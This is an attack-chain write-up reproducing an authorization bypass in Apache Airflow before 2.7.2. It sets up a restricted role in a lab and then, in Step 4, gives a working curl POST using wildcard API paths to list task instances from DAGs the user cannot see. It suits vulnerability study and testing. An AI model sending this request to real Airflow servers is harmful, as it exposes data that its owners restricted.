

# Authorization Bypass in Apache Airflow API to Access Unauthorized Task Instances

Multi-stage attack chain demonstrating an authorization bypass vulnerability in Apache Airflow versions before 2.7.2, where a user with read access to specific DAGs can exploit the REST API to view task instances from other DAGs. The attack requires an authenticated account but bypasses UI restrictions via wildcard placeholders in API paths, potentially exposing sensitive task execution details.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Apache Airflow < 2.7.2
- Web platform accessible on port 8080
- Services: DAGs and Task Instances
- Tech stack: Python-based Airflow

### Initial Access Requirements

- Administrative access to create roles and users
- Authenticated session as restricted user for exploitation
- Network access to Airflow webserver (e.g., http://target:8080)

## Detailed Attack Procedures

### Step 1: Create Restricted Role
procedure: [[procedures/Create-Restricted-User-Role-in-Airflow]]

**Objective**: Establish a user role limited to reading only the 'tutorial' DAG to simulate restricted access.

**Instructions**: Access the Airflow admin interface and modify the default User role by removing broad DAG permissions and adding specific read access to 'tutorial'.

**Expected Output**: A new role 'roleA' with 'can read on DAG:tutorial' permission only.

**Success Indicators**:
- Role created without errors
- Permissions verified in admin panel

### Step 2: Assign Role to Test User
procedure: [[procedures/Assign-Restricted-Role-to-Test-User]]

**Objective**: Create a test user and apply the restricted role to test permission enforcement.

**Instructions**: In the Airflow admin interface, create a user named 'test' and assign 'roleA'.

**Expected Output**: User 'test' created and associated with restricted role.

**Success Indicators**:
- User login successful
- Role assignment confirmed in user settings

### Step 3: Verify UI Restrictions
procedure: [[procedures/Verify-UI-Restrictions-as-Test-User]]

**Objective**: Confirm that UI enforces restrictions, showing only the 'tutorial' DAG and no other task instances.

**Instructions**: Log in as 'test' user and navigate to the DAGs view.

**Expected Output**: Only 'tutorial' DAG visible; no access to other DAGs or their task instances.

**Success Indicators**:
- UI displays limited DAG
- Attempts to view other DAGs fail or show access denied

### Step 4: Exploit API with Wildcard Paths
procedure: [[procedures/Exploit-Airflow-API-with-Wildcard-Paths]]

**Objective**: Bypass UI restrictions by sending a crafted API request using wildcards to list task instances from all DAGs.

**Instructions**: Use [[tools/Burp-Suite]] to intercept a session as 'test' user and send a POST to the API endpoint with wildcards and empty body. Equivalent curl command using [[commands/airflow-api-taskinstances-bypass]]:

```bash
curl -X POST 'http://target:8080/api/v1/dags/~/dagRuns/~/taskInstances/list' \
  -H 'Accept: application/json' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=3d17f3fe-e02b-4f16-88f1-fd59e299ae0c.a4kyHK7of13T0NtbCVVmPgFtSDU' \
  -d '{}'
```

**Expected Output**: JSON response listing task instances from all DAGs, including unauthorized ones.

**Success Indicators**:
- Response contains data from non-'tutorial' DAGs
- No permission error in API response

## Attack Chain Summary

### Key Achievements

1. Created and assigned a restricted role to limit UI access
2. Verified UI enforcement of DAG-specific permissions
3. Bypassed restrictions via API wildcard exploitation
4. Accessed sensitive task instance details from unauthorized DAGs

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
